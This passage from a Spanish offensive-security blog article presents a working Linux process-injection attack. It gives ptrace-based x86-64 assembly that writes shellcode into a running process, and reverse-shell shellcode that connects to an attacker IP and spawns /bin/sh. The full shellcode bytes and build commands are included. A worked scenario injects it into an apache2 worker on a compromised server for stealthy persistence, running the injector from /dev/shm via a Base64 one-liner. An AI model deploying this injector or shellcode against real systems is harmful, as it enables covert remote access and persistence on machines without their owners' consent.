; 7 Restauración del contenido ubicado en la dirección a la que apunta el registro RIP del tracee
xor r14, r14
mov r14, [regs_ori+0x80]
; PTRACE_POKEDATA (escribir en memoria)
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
mov rdx, r14 ; addr
mov r10, r13 ; valor de 8 bytes a escribir
syscall
; Comprobación de que se haya restaurado el bytearray de manera adecuada
; PTRACE_PEEKDATA (leer memoria)
;mov rax, 101
;mov rdi, 2 ; PTRACE_PEEKDATA
;mov rsi, r15 ; PID
;mov rdx, r14 ; addr
;sub rsp, 8
;mov r10, rsp ; puntero a data (direccion donde se almacenará la info leída)
;syscall
; -----------------------------------------
; 8 Restauración de los registros originales del proceso tracee
; PTRACE_SETREGS
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
syscall
; -----------------------------------------
; 9 Almacenamiento del RIP de retorno en los últimos 8 bytes de la región de memoria reservada por MMAP
; PTRACE_POKEDATA (escribir en memoria)
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
lea rdx, [r12+4088] ; addr
mov r10, r14 ; valor de 8 bytes a escribir
syscall
; Verificar que se ha escrito el valor del RIP de retorno en la región de memoria reservada por MMAP
; PTRACE_PEEKDATA
;mov rax, 101
;mov rdi, 2 ; PTRACE_PEEKDATA
;mov rsi, r15 ; PID
;lea rdx, [r12+4088] ; addr
;sub rsp, 8 ; 8 bytes
;mov r10, rsp ; puntero a data (direccion donde se almacenará la info leída)
;syscall
; -----------------------------------------
; 10 Inyección del shellcode en la zona de memoria reservada (PTRACE_POKEDATA escribe 8 bytes)
xor r13,r13
lea r13, [rel shellcode] ; puntero al shellcode
xor r14, r14
mov r14, sc_len / 8 ; contador de palabras a escribir
push r12
.loop_inj:
cmp r14, 0 ; compara el contador de palabras a escribir con 0
jz .done ; si contador == 0, saltar a .done
; PTRACE_POKEDATA
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
mov rdx, r12 ; addr
mov r10, [r13] ; valor de 8 bytes a escribir
syscall
add r12, 8
add r13, 8
dec r14
jmp .loop_inj
; -----------------------------------------
.done
; Verificar que el shellcode se escribió bien
;mov rax, 101
;mov rdi, 2 ; PTRACE_PEEKDATA
;mov rsi, r15
;mov rdx, r12 ; dirección mmap
;sub rsp, 8 ; 8 bytes
;mov r10, rsp ; puntero a data (direccion donde se almacenará la info leída)
;syscall
pop r12
mov qword [regs_ori+0x80], r12 ; RIP == dirección del inicio de la memoria reservada == inicio del shellcode
mov qword [regs_ori+0x78], -1 ; orig_rax = -1 (evita syscall restart)
; PTRACE_SETREGS
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
syscall
; PTRACE_DETACH
mov rax, 101
mov rdi, 17 ; PTRACE_DETACH
mov rsi, r15 ; PID
xor rdx, rdx ; addr
xor r10, r10 ; signal = 0 (no enviar señal)
syscall
; EXIT
mov rax, 60
xor rdi,rdi
syscall
proc_inj_rev_tcp.asm (Shellcode)¶
section .text
global _start
_start:
; FORK
mov rax, 57
syscall
cmp rax, 0 ; si rax==0 se trata del hijo
jz .child
; r11 porque es un registro clobbered (destruido por las syscalls)
; por tanto, no se está modificando un registro funcional del proceso tracee
lea r11, [rel _start] ; r11 = dirección de _start = mmap_base = RIP inicial del shellcode
; Nunca se debe asignar un valor a R11 antes de un syscall si se pretende recuperar después
; Proceso Padre
mov r14, [r11+4088] ; Obtiene dirección de retorno
jmp r14 ; Salta a la dirección de retorno sobreescribiendo el registro RIP
.child
; SETSID
mov rax, 112
syscall
; SOCKET
mov rax, 41
mov rdi, 2 ;IPV4
mov rsi, 1 ;TCP
xor rdx, rdx ; Default
syscall
; Store socket FD
mov r8, rax
; CONNECT
mov rax, 42
mov rdi, r8
; Stack Low <----------- High
; Entrada esperada: 02 00 11 5c C0 A8 12 8D 00 00 00 00 00 00 00 00
; └──┘ └──┘ └────────┘ └──────────────────────┘
; 0-1 2-3 4-7 8-15 (16 bytes en total)
; fam port IP padding
; Mapeado de los campos de sockaddr_in:
; Bytes 0-1: 02 00 → sin_family (AF_INET = 2)
; Bytes 2-3: 11 5c → sin_port (4444)
; Bytes 4-7: 7F 00 00 01 → sin_addr (127.0.0.1)
; Bytes 8-15: 00 00 00 00... → sin_zero (padding)
xor r9,r9 ; 0
push r9 ; 64 bits de padding a 0 (sin_zero)(8 bytes)
mov r10, 0x0100007F5c110002
push r10 ; sin_family + sin_port + sin_addr (8 bytes)
mov rsi, rsp ; direccion del tope de la pila
mov rdx, 16 ;IPV4 (espera 16 bytes)
syscall
xor rsi,rsi
.dup2: ; stdin(0), stdout(1), stderr(2) redirigidos al socket
;DUP2
mov rax, 33
mov rdi, r8
syscall
inc rsi
cmp rsi, 3
jl .dup2
; EXEXCVE
mov rax, 59
push 0 ; null terminator de /bin/sh -> /bin/sh\0
mov r12, 0x68732f6e69622f ; /bin/sh (2F 62 69 6E 2F 73 68) en little-endian
push r12 ; string /bin/sh
mov rdi, rsp
push 0 ; argv = {NULL}
mov rsi, rsp
push 0 ; envp = {NULL}
mov rdx, rsp
syscall
.done:
; EXIT
mov rax, 60 ; syscall: exit
xor rdi, rdi ; exit code = 0 (éxito)
syscall
Compilación¶
# Compilar el shellcode de reverse shell
nasm -f elf64 proc_inj_rev_tcp.asm -o proc_inj_rev_tcp.o
ld proc_inj_rev_tcp.o -o proc_inj_rev_tcp
# Extraer bytes del shellcode (para actualizar la sección .data del inyector)
objcopy -O binary --only-section=.text proc_inj_rev_tcp proc_inj_rev_tcp.bin
xxd -i proc_inj_rev_tcp.bin
# Compilar el inyector
nasm -f elf64 proc_inj.asm -o proc_inj.o
ld proc_inj.o -o proc_inj
Caso Práctico¶
Se ha comprometido un servidor Linux y se tiene acceso como root. El objetivo es inyectar una reverse shell en un proceso de larga duración de un usuario del sistema para mantener acceso persistente. Al ser root no hay restricciones de ptrace_scope, root puede trazar cualquier proceso del sistema independientemente de su configuración.
En primer lugar, comenzamos editando el script proc_inj_rev_tcp.asm, ya que las modificaciones son datos propios del atacante. Para ello, debemos obtener la dirección IP de la máquina atacante y definir un puerto de escucha.

La IP del atacante es la 192.168.18.245, que en hexadecimal equivale a 0xC0A812F5. El puerto de escucha que utilizaremos será el 443, equivalente a 0x1BB.
; CONNECT
mov rax, 42
mov rdi, r8
; Stack Low <----------- High
; Entrada esperada (16 bytes):
; 02 00 01 BB C0 A8 12 F5 00 00 00 00 00 00 00 00
; └──┘ └──┘ └────────┘ └────────────────────────┘
; fam port IP padding
; Mapeo sockaddr_in:
; Bytes 0-1: 02 00 -> sin_family (AF_INET = 2)
; Bytes 2-3: 01 BB -> sin_port (443, big-endian)
; Bytes 4-7: C0 A8 12 F5 -> sin_addr (192.168.18.245)
; Bytes 8-15: 00 ... 00 -> sin_zero (padding)
xor r9, r9
push r9 ; 8 bytes a 0 (sin_zero)
mov r10, 0xF512A8C0BB010002 ; [02 00][01 BB][C0 A8 12 F5]
push r10 ; fam+port+ip
mov rsi, rsp ; sockaddr_in*
mov rdx, 16 ; sizeof(sockaddr_in)
syscall
Compilamos el script y obtenemos los bytes que formarán el shellcode a inyectar.
# Compilar el shellcode de reverse shell
nasm -f elf64 proc_inj_rev_tcp.asm -o proc_inj_rev_tcp.o
ld proc_inj_rev_tcp.o -o proc_inj_rev_tcp
# Extraer bytes del shellcode (para actualizar la sección .data del inyector)
objcopy -O binary --only-section=.text proc_inj_rev_tcp proc_inj_rev_tcp.bin
xxd -i proc_inj_rev_tcp.bin

El shellcode tiene un tamaño de 161 bytes. Dado que PTRACE_POKEDATA escribe exactamente 8 bytes por llamada, el tamaño total del shellcode debe ser múltiplo de 8. El siguiente múltiplo de 8 después de 161 es 168, por lo que se añaden 7 bytes NOP (0x90) como padding al final para completar los 168 bytes (168 / 8 = 21 escrituras).
Una vez obtenidos los bytes que conforman el shellcode, podemos añadir el bloque al script inyector proc_inj.asm.
; proc_inj.asm
shellcode:
db 0xb8, 0x39, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
db 0x83, 0xf8, 0x00, 0x74, 0x11, 0x4c, 0x8d, 0x1d
db 0xec, 0xff, 0xff, 0xff, 0x4d, 0x8b, 0xb3, 0xf8
db 0x0f, 0x00, 0x00, 0x41, 0xff, 0xe6, 0xb8, 0x70
db 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x29, 0x00
db 0x00, 0x00, 0xbf, 0x02, 0x00, 0x00, 0x00, 0xbe
db 0x01, 0x00, 0x00, 0x00, 0x48, 0x31, 0xd2, 0x0f
db 0x05, 0x49, 0x89, 0xc0, 0xb8, 0x2a, 0x00, 0x00
db 0x00, 0x4c, 0x89, 0xc7, 0x4d, 0x31, 0xc9, 0x41
db 0x51, 0x49, 0xba, 0x02, 0x00, 0x01, 0xbb, 0xc0
db 0xa8, 0x12, 0xf5, 0x41, 0x52, 0x48, 0x89, 0xe6
db 0xba, 0x10, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
db 0x31, 0xf6, 0xb8, 0x21, 0x00, 0x00, 0x00, 0x4c
db 0x89, 0xc7, 0x0f, 0x05, 0x48, 0xff, 0xc6, 0x48
db 0x83, 0xfe, 0x03, 0x7c, 0xed, 0xb8, 0x3b, 0x00
db 0x00, 0x00, 0x6a, 0x00, 0x49, 0xbc, 0x2f, 0x62
db 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x41, 0x54
db 0x48, 0x89, 0xe7, 0x6a, 0x00, 0x48, 0x89, 0xe6
db 0x6a, 0x00, 0x48, 0x89, 0xe2, 0x0f, 0x05, 0xb8
db 0x3c, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x0f
db 0x05, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
sc_len equ $ - shellcode
Ya solo queda obtener el PID del proceso objetivo para completar la configuración de los scripts. En este caso, usaremos como objetivo el proceso apache2 del usuario www-data (aunque también podría elegirse uno ejecutándose como root si se desea conservar los privilegios tras la conexión), ya que es un proceso de larga duración que suele permanecer activo en un servidor web y cuyas conexiones salientes pueden pasar más desapercibidas.

Se elige uno de los worker processes (PID 5204) y se actualiza el valor en proc_inj.asm.
Una vez configurado el script inyector, lo compilamos.
Una vez que disponemos del ejecutable, es necesario alojarlo en la máquina víctima. Existen numerosos métodos para hacerlo, pero si no contamos con una shell completamente interactiva, mi opción preferida es transferirlo en Base64, reconstruirlo en /dev/shm y ejecutarlo desde ahí.
# Convertir el binario a Base64 y mostrarlo por pantalla
base64 -w 0 ./proc_inj > proc_inj.b64 && cat proc_inj.b64
Antes de realizar la ejecución en la máquina objetivo recuerda mantenerte a la escucha en el puerto establecido.
Una vez todo preparado, alojamos y ejecutamos el inyector en la máquina objetivo.
# Máquina víctima
# Decodifica Base64 a binario en memoria (tmpfs), asigna permisos de ejecución y ejecuta inmediatamente
echo '<Base64>' | base64 -d > /dev/shm/proc_inj && chmod +x /dev/shm/proc_inj && /dev/shm/proc_inj
Inmediatamente después, recibimos la conexión entrante desde la víctima.

Consideraciones de seguridad¶
Para que ptrace funcione sobre el proceso objetivo, se debe cumplir al menos una de las siguientes condiciones de privilegio:
- El tracer debe tener el mismo UID que el tracee.
- El tracer debe tener la capability
CAP_SYS_PTRACE. - El tracer debe ejecutarse como
root.
Además, el fichero /proc/sys/kernel/yama/ptrace_scope indica restricciones adicionales:
| Valor | Restricción |
|---|---|
| 0 | Sin restricciones |
| 1 | Solo hacia procesos hijos |
| 2 | Solo con CAP_SYS_PTRACE |
| 3 | Ptrace completamente deshabilitado |
Se puede desactivar temporalmente realizando la siguiente operación:
Agradecimientos¶
Gracias por llegar hasta aquí.
Si encuentras errores o quieres mejorar/ampliar el artículo, el contenido del blog está abierto a Pull Requests. Toda contribución es bienvenida.
¡Nos vemos en el próximo artículo! ;)